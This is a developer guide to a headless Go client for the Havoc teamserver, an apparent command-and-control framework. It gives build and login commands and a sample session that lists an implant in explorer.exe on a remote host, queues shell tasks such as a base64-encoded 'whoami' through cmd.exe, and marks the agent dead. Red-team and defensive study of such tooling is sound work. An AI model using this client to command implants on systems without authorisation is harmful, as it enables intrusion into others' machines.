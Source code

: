 # Building a Headless Havoc Client in Go

This guide explains how to replace the Qt-based GUI client with a custom headless client written in Go. It summarises the network protocol used between the existing client and the Havoc teamserver and outlines a reference architecture for interacting with the teamserver programmatically.

## Using the bundled headless client

The repository now includes a ready-to-run CLI client under the `headless` subcommand of the teamserver binary. Build the Go project and connect to a running teamserver instance:

```bash
cd teamserver
go build -o havoc
./havoc headless --host 127.0.0.1 --port 40056 --user operator --password "super-secret"
```

> **Tip:** Always run Go tooling from inside the `teamserver/` module. Invocations from the repository root will error with `go: cannot find main module` because the Go sources live beneath `teamserver/`.

Authentication also honours the `HAVOC_PASSWORD` environment variable, so you can omit `--password` and export the secret instead. The `--insecure=false` flag enables strict TLS verification, and `--no-prompt` starts the client in log-only mode without the interactive REPL. 【F:teamserver/cmd/headless/headless.go†L39-L118】

After a successful login you will land in a prompt that mirrors core GUI actions:

```text
Headless Havoc client ready. Type 'help' for a list of commands.
> listeners
NAME            PROTOCOL   BIND        PORT   HOSTS        STATUS   UPDATED
redirector      https      0.0.0.0     443    teamserver   RUNNING  2024-04-03T12:17:03Z
> agents
ID        USER@HOST        INTERNAL        EXTERNAL        PROCESS      PID   ARCH   SLEEP   STATUS
AGT0213   user@workstn     10.0.4.23       203.0.113.42    explorer.exe 1044  x64    30s     Alive
> chat Testing headless client
> task AGT0213 12 FromProcessManager=false
queued command 12 for agent AGT0213 (task 5b8f3a60)
> task AGT0213 0x1010 shell whoami ProcCommand=4 Args=0;FALSE;TRUE;c:\\windows\\system32\\cmd.exe;L2Mgd2hvYW1p
queued command 0x1010 for agent AGT0213 (task 3a21d91c)
> task AGT0213 2510 one-time
queued command 2510 for agent AGT0213 (task 181c0e24)
> mark AGT0213 Dead
```

* `listeners`, `agents`, and `chatlog` render cached state the reader thread maintains for you. 【F:teamserver/cmd/headless/headless.go†L421-L481】
* `chat <message>` broadcasts a base64-encoded message to every operator session. 【F:teamserver/cmd/headless/headless.go†L489-L512】
* `task <agent-id> <command-id> ...` submits work to the selected agent. Tokens without an equals sign become the `CommandLine` string while `key=value` pairs populate explicit fields in the package payload. Add the literal `one-time` token when you want the teamserver to treat the task as transient output. The client automatically supplies the `FromProcessManager=false` flag that the GUI always includes with process listings, so you only need to override it when queueing tasks from the process manager UI. 【F:teamserver/cmd/headless/headless.go†L514-L615】
* `mark <agent-id> <Alive|Dead>` updates the agent’s status flag in Havoc. 【F:teamserver/cmd/headless/headless.go†L571-L603】
